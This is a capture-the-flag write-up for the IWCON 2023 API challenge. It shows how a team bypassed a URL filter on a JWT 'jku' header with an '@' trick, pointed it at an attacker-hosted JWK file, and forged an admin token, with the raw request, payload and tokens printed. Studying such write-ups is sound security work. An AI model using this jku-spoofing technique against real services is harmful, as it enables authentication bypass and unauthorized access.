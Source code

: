 ```yaml
---
title: IWCON23 CTF
image: assets/writeups/trace4.jpeg
description: Writeup for challenge IWCON 2023 API solved in IWCON 2023 
date: 2023-12-14
categories: [CTFwriteups]
tags: [API, web]
author: trace
---
```


![](https://imgur.com/HDfHZOD.png)
### **IWCON 2023 API**

#### **Step 1: Unveiling the Exploited Token Mechanism**

Our team scrutinized a POST request, uncovering a potential threat. This comprehensive analysis exposed the utilization of a manipulated token within the request to gain unauthorized access to sensitive information.

**POST Request Details:**
```http
POST /api/v2/getFlag HTTP/1.1
Host: 3.111.42.9:9595
User-Agent: curl/8.4.0
Accept: */*
Content-Length: 540
Content-Type: application/x-www-form-urlencoded
Connection: close
token=eyJqa3UiOiJodHRwczovLzc1N2YtMTE0LTM2LTE3LTIxNS5uZ3Jvay1mcmVlLmFwcCIsImtpZCI6IjY3ZTVjNjkyLWMzYzUtNDcwNi05MmVmLTUzMGUyZGU4YWIwMCIsInR5cCI6IkpXVCIsImFsZyI6IlJTMjU2In0.eyJ1c2VybmFtZSI6ImFkbWluIn0.OJY-8-9hUxEtSTH3w_LzfvC4ijYVbVBPCRzOII6JWIPLiwX3PFcpdo1Gks4vi3dpGAoX6ZJRAyQm7QDzRv083GngSqF1ZrH5ZfNEt8MWqK28rpVQx9BnatUxXYdaA3gNiWtPPyDl9cJsX1T6w4MCRljb9qih_gOCMjAtV6KxxKR2nJAPhSUbR0yzr7c13UWFQNnifSwBLGMcbxg2Doeh-fBqSS4JvueXKnQRyV-Th5RBlvUx6prQGk0IXW1I-93dCkbWXSUDX4JCzqXHa6qI0xgp_akhz8S1pcwq2sUECujVAgz75ke-pzQhSkzh5wN1G_T5jXEcKKIMTcg6JlKCWw
```

#### **Step 2: Manipulating the "jku" Parameter for Unauthorized Access**

Upon closer inspection, our team identified the "jku" parameter, pointing to "http://3.111.42.9/". Further investigation revealed a filter in place, leading to the discovery that leveraging the "@" symbol could redirect communication to a malicious server. To bypass the imposed filter, the "jku" parameter was manipulated to `"jku": "http://3.111.42.9@<attackerIP>:1445/.well-known/jwk.json"`. Notably, the requested `jwk.json` was then hosted on the attacker's server.

**JWK JSON Payload:**
```json
{"mykeys":[{"alg":"RS256","e":"AQAB","kid":"1234","kty":"RSA","n":"...","use":"sig"}]}
```

#### **Step 3: Generating the "N" Value for Unauthorized Token Creation**

With the obtained JWK data, we extracted the "N" value and proceeded to craft a new JWT token, embedding the desired username to facilitate the extraction of the target flag.

**Final JWT Token:**
```jwt
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6IjEyMzQiLCJqa3UiOiJodHRwOi8vMy4xMTEuNDIuOUBSRURBQ1RFRDoxNDQ1Ly53ZWxsLWtub3duL2p3ay5qc29uIn0.eyJ1c2VybmFtZSI6Iml3Y29uIiwiYWRtaW4iOiJ0cnVlIn0.Ki_I4KqmCbEwbN8hEU7NiKsbsyBKUlDKuNSwZthXPZLUAY0x4FruBP5YKyBl-ohR6BPH8IEYt72smgMF4tEuUc0kyyJnOmr0e_VujEa5V23uo80I39rPB3H3U4t5XBEviZKd2haf2h5fkgW3ZNm6SdvvcweKyYpRkTjEAIDR1F5Th2ygjSl6hC8mBuX3cE_Xu4-Wh7EkotWB3hBbSNDrmsxeH2amqA6ZbP6Gwm7aCv0MWHvgGbT1KUtxQZM0WlmcqQlblO4UkYet7_byppX5TIdLy5aB-r6RvSiL9H6HI0VtjkWBu_BFmKywW0aPWVVJuG34ewtO5tTHTmtNFUqnWg
```

Acknowledgments to the shadowbrokers team for their collaborative effort:
- [https://twitter.com/Hac10101](https://twitter.com/Hac10101)
- [https://twitter.com/C15C01337](https://twitter.com/C15C01337)
- [https://twitter.com/5hriyan5h](https://twitter.com/5hriyan5h)
- [https://twitter.com/0xManan](https://twitter.com/0xManan)
- [https://twitter.com/Saitleop](https://twitter.com/Saitleop)
